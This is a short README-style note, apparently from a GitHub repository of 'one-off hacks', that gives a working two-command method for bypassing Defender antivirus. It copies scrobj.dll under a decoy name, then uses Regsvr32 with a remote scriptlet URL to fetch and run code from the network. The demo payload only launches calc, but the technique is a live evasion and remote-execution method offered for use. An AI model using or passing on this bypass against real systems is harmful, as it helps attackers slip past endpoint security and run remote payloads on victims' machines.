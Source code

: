 # One-off-hacks

### Bypass AV/EDR test found [here](https://www.trustedsec.com/blog/discovering-the-anti-virus-signature-and-bypassing-it/) and here at [twitter](https://twitter.com/mrd0x/status/1461041276514623491?s=20)
Bypass Defender AV by:
1. copying and renaming scrobj.dll  
`copy c:\windows\system32\scrobj.dll NothingToSeeHere.dll`
2. Testing that by launching calc  
`Regsvr32.exe /u /s /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct
NothingToSeeHere.dll`
